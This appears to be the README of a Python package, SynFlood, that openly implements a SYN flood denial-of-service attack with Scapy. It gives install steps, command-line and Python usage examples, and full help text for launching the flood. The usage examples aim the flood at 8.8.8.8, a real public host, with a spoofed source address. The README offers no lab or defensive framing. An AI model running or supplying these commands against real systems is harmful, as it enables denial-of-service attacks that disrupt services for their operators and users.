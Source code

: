 ![SynFlood logo](https://mauricelambert.github.io/info/python/security/SynFlood_small.png "SynFlood logo")

# SynFlood

## Description

This package implements a SYN flood attack (DOS attack: Denial Of Service).

## Requirements

This package require:

 - python3
 - python3 Standard Library
 - Scapy

## Installation

```bash
pip install SynFlood 
```

## Usages

### Command lines

```bash
python3 -m SynFlood --help

python3 SynFlood.pyz --verbose --dport 80 --source 0.0.0.0 --sport 45586 --interface 172.16.0. --data abc 8.8.8.8

SynFlood -h
SynFlood 8.8.8.8
SynFlood -v -p 80 -s 0.0.0.0 -P 45586 -i 172.16.0. -d abc 8.8.8.8
```

### Python3

```python
from SynFlood import synflood, conf_iface
synflood("8.8.8.8", 80, "0.0.0.0", 45586)
synflood("8.8.8.8", 80, "0.0.0.0", 45586, b"abc", conf_iface)
```

## Link

 - [Github Page](https://github.com/mauricelambert/SynFlood)
 - [Pypi](https://pypi.org/project/SynFlood/)
 - [Documentation](https://mauricelambert.github.io/info/python/security/SynFlood.html)
 - [Python Executable](https://mauricelambert.github.io/info/python/security/SynFlood.pyz)

## Help

```
usage: SynFlood [-h] [--dport DPORT] [--source SOURCE] [--sport SPORT] [--data DATA] [--verbose] [--interface INTERFACE] target

This script implements a SynFlood attack.

positional arguments:
  target                Target IP or hostname.

optional arguments:
  -h, --help            show this help message and exit
  --dport DPORT, -p DPORT
                        Destination port.
  --source SOURCE, -s SOURCE
                        Source IP.
  --sport SPORT, -P SPORT
                        Source port.
  --data DATA, -d DATA  Additional data
  --verbose, -v         Mode verbose (print debug message)
  --interface INTERFACE, -i INTERFACE
                        Part of the IP, MAC or name of the interface
```

## Licence

Licensed under the [GPL, version 3](https://www.gnu.org/licenses/).
